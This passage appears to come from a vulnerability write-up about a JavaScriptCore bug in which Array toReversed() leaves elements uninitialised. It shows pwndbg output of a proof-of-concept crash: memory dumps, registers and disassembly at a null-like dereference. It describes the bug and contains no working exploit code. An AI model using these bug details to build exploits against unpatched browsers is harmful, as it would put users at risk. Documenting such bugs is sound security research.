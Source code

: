 After running this PoC, the program crashes when trying to access a field in an uninitialized element. This behavior confirms that `toReversed()` misses properly initialising additional elements when `publicLength` is smaller than `vectorLength`. 

```cpp
Object: 0x7fc8ab0094c8 with butterfly 0x7fc8a90927e8(base=0x7fc8a90927e0) (Structure 0x7fc7000060f0:[0x60f0/24816, Array, (0/0, 0/0){}, ArrayWithContiguous, Unknown, Proto:0x7fc8ab008988]), StructureID: 24816

pwndbg> tele 0x7fc8a90927e0
00:0000│  0x7fc8a90927e0 ◂— 0x300000001
01:0008│  0x7fc8a90927e8 —▸ 0x7fc8ab01e608 ◂— 0x100030000005210
02:0010│  0x7fc8a90927f0 ◂— 0xbadbeef0 // uninitialized value
... ↓     5 skipped
pwndbg> c
Continuing.
Thread 1 "jsc" received signal SIGSEGV, Segmentation fault.
0x00005641527ffa82 in llint_op_get_by_id ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────────────────────────────
*RAX  0xfffffffffffffff5
 RBX  0
*RCX  0xbadbeef0
*RDX  0x7fc8a9001390 ◂— 0
*RDI  0x7ffc350bd118 —▸ 0x7fc8a9400000 ◂— 3
*RSI  1
*R8   0xd4
*R9   0xd40000004
*R10  0x7fc8a9001770 ◂— 0x60f0
*R11  0xffffffff
*R12  0x7fc8a9001310 ◂— 0x68006800680068 /* 'h' */
*R13  0x7fc8ab070900 ◂— 0xfbf91c10fa9286
*R14  0xfffe000000000000
*R15  0xfffe000000000002
*RBP  0x7ffc350bd230 —▸ 0x7ffc350bd2a0 —▸ 0x7ffc350bdc40 —▸ 0x7ffc350bdd50 —▸ 0x7ffc350be0d0 ◂— ...
*RSP  0x7ffc350bd1a0 —▸ 0x7fc8a903a088 ◂— 0x128340000009440
*RIP  0x5641527ffa82 (llint_op_get_by_id+94) ◂— mov esi, dword ptr [rcx]
─────────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────────────────────────────────
 ► 0x5641527ffa82 <llint_op_get_by_id+94>     mov    esi, dword ptr [rcx]     <Cannot dereference [0xbadbeef0]>
   0x5641527ffa84 <llint_op_get_by_id+96>     mov    eax, dword ptr [rdx]
   0x5641527ffa86 <llint_op_get_by_id+98>     cmp    eax, esi
   0x5641527ffa88 <llint_op_get_by_id+100>    jne    llint_op_get_by_id+456      <llint_op_get_by_id+456>
 
   0x5641527ffa8e <llint_op_get_by_id+106>    movsxd rsi, dword ptr [rdx + 4]
   0x5641527ffa92 <llint_op_get_by_id+110>    cmp    esi, 0x40
   0x5641527ffa95 <llint_op_get_by_id+113>    jl     llint_op_get_by_id+126      <llint_op_get_by_id+126>
 
   0x5641527ffa97 <llint_op_get_by_id+115>    mov    rcx, qword ptr [rcx + 8]
   0x5641527ffa9b <llint_op_get_by_id+119>    neg    esi
   0x5641527ffa9d <llint_op_get_by_id+121>    movsxd rsi, esi
   0x5641527ffaa0 <llint_op_get_by_id+124>    jmp    llint_op_get_by_id+133      <llint_op_get_by_id+133>
──────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffc350bd1a0 —▸ 0x7fc8a903a088 ◂— 0x128340000009440
01:0008│-088 0x7ffc350bd1a8 ◂— 0xa /* '\n' */
```